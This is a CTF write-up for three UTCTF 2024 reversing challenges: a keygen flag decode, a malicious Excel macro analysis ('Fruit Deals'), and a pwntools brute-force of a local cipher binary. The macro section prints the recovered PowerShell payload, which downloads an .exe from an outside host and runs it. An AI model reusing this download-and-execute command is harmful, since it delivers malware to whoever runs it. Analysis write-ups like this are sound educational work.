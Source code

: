 # UTCTF 2024
## Beginner: Basic Reversing Problem

In keygen function, the program consecutively added characters to the key.

![image](https://github.com/san601/CTF_Archive/assets/144963803/cef44d9d-982f-4bb4-addc-d3fc1fb89884)

Concatenating those characters and we got the flag.

```python
a = [
    0x75, 0x74, 0x66, 0x6c, 0x61, 0x67, 0x7b, 0x69, 0x5f, 0x63, 0x34, 0x6e,
    0x5f, 0x72, 0x33, 0x76, 0x21, 0x7d,
]
for i in a:
    print(chr(i), end='')
```

![image](https://github.com/san601/CTF_Archive/assets/144963803/84cb1da7-fe14-4940-b1b8-430b982b28b0)

## Fruit Deals

We got 2 macros in the file, let's just focus on the first one.

![image](https://github.com/san601/CTF_Archive/assets/144963803/dbbb6c1f-13ce-4b0a-9be0-603733d6e8c5)

Sheet1 and sheet2 were full of random Base64 stuffs

![image](https://github.com/san601/CTF_Archive/assets/144963803/fcd327de-3178-40ac-9e8f-fe58d4ff2c6b)

So basically, this macro check if a cell contained some string, if true, it put some part of a payload into a variable. This payload might be used to download some files.

![image](https://github.com/san601/CTF_Archive/assets/144963803/e5882d47-aff1-4325-8f9f-85c6cccc4b47)

Set a breakpoint just right before the macro execute the payload.

![image](https://github.com/san601/CTF_Archive/assets/144963803/bd1e358a-96e3-4d55-8b36-b830f26b5e24)

We got the payload
```
"poWeRsHELL -command "$oaK = new-object Net.WebClient;$OrA = 'http://fruit.gang/malware';$CNTA = 'banANA-Hakrz09182afd4';$jri=$env:public+'\'+$CNTA+'.exe';try{$oaK.DownloadFile($OrA, $jri);Invoke-Item $jri;break;} catch {}""
```

It is clearly stated that the macro was going to download a file from 
```
http://fruit.gang/malware/banANA-Hakrz09182afd4.exe
```

So the flag is utflag{banANA-Hakrz09182afd4.exe}

## PES-128

After a while, I noticed that:
- Each character in the output string was not calculated based on a whole input string.
- The program treated our input as a string of hex bytes:
  
This was my input:

![image](https://github.com/san601/CTF_Archive/assets/144963803/9a8d78c6-d231-4bbe-95ed-a656085d0936)

This was how the program store my input:

![image](https://github.com/san601/CTF_Archive/assets/144963803/7a9183b7-1145-40be-9bbd-ca1feab07174)

This was my input after some calculation:

![image](https://github.com/san601/CTF_Archive/assets/144963803/46404e51-1210-44b1-a73a-ff239ef2c45a)

This was the output:

![image](https://github.com/san601/CTF_Archive/assets/144963803/46fb9de2-3ce1-40a7-9041-211ebde7b2f3)

With those idea in mind, we can now brute-forcing each character at a time, compare it with the encrypted flag.

Here is my script to cAptURe tHe fLaG.
```python
from pwn import *

enc_flag = '75ac713a945e9f78f657b735b7e1913cdece53b8853f3a7daade83b319c49139f8f655b0b77b'

flag = ''

flag_len = len(enc_flag)//2

for i in range(flag_len):
    for j in range(33, 126):
        binary_path = './PES'
        p = process(binary_path)
        p.sendline(flag + str(hex(j)[2:]))

        output = p.recvall().decode()
        output = output.split()
        current_length = len(output[1])
        if output[1] == enc_flag[:current_length]:
            print(chr(j), end='')
            flag += str(hex(j)[2:])
        p.close()

print(bytes.fromhex(flag).decode('utf-8')
```

![image](https://github.com/san601/CTF_Archive/assets/144963803/d3b4acb1-c6bc-4871-8fd9-c4e1fcc69397)

